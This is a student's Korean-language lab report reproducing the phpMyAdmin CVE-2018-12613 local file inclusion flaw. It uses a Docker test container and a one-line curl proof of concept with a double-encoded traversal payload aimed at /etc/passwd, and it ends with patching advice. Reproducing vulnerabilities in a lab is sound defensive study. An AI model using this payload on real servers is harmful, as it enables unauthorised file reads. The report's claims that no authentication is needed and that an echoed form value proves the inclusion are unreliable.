


[CVE-2018-12613] phpMyAdmin 로컬 파일 포함 (LFI) 취약점 재현 보고서

작성자: [22반] 정채린(1716)

1. 취약점 요약
- CVE ID: CVE-2018-12613
- 대상 소프트웨어: phpMyAdmin 4.8.0 ~ 4.8.1
- 개요: phpMyAdmin의 페이지 요청 처리 모듈에서 사용자 입력 값(`target` 파라미터)에 대한 화이트리스트 검증 로직이 불완전하여 발생하는 로직 우회 기반 로컬 파일 포함(Local File Inclusion) 취약점입니다. 공격자는 이중 URL 인코딩 기법을 통해 필터링을 우회하고 디렉터리 트래버설을 수행할 수 있습니다.

2. 환경 구성
외부 도커 허브 보관소의 공식 검증 이미지를 기반으로 싱글 컨테이너 환경을 구성하여 구동하였습니다.

docker-compose.yml 설정
   yaml
version: '3'
services:
  vuln-pma:
    image: phpmyadmin/phpmyadmin:4.8.1
    ports:
      - "8080:80"
    restart: always
실습 웹 주소: http://localhost:8080/

3. 취약 조건
phpMyAdmin 4.8.1 이하 버전을 사용하는 경우

외부 사용자의 target 파라미터 입력 값이 내부 검증 함수(Core::checkPageValidity)를 우회하도록 구성된 경우

인증 필요 여부: 미인증 상태에서 수행 가능 (Unauthenticated)

4. 재현 절차 및 PoC 코드
물음표(?)를 이중 URL 인코딩한 값(%253f)을 페이로드 구조에 포함하여 정규식 검증을 기만하고, 상위 디렉터리 탈출 문자(../)를 주입하여 시스템 파일 읽기를 시도합니다.

PoC (Proof of Concept) 명령어
curl.exe -s -i "http://localhost:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd"

5. 실행 결과 및 취약점 증명
공격 패킷을 전송한 결과, 단순 404 에러나 로그인 페이지만 출력되는 것이 아니라 백엔드에서 주입된 경로가 비정상적으로 인클루드되어 처리된 응답 코드가 리턴되었습니다.

실행 결과 스크린샷 (result.png)

결과 증명: 응답 HTML 코드 하단 폼 태그 영역에 공격 페이로드인 value="db_sql.php%3f/../../../../../../../../etc/passwd" 구조가 비정상적으로 렌더링되어 파싱된 것이 확인되므로, 화이트리스트 검증을 완벽히 우회하고 취약점이 성공적으로 재현되었음을 증명합니다.

6. 대응 방안
최신 소프트웨어 업데이트: 해당 취약점이 안전하게 보안 패치된 phpMyAdmin 공식 안정 버전(4.8.2 이상)으로 신속하게 업그레이드를 진행합니다.

파라미터 화이트리스트 강화: 외부 입력 값을 인클루드 경로로 사용할 경우, 이중 인코딩된 특수문자가 필터링을 우회하지 못하도록 입력값 검증 로직을 엄격하게 정비합니다.
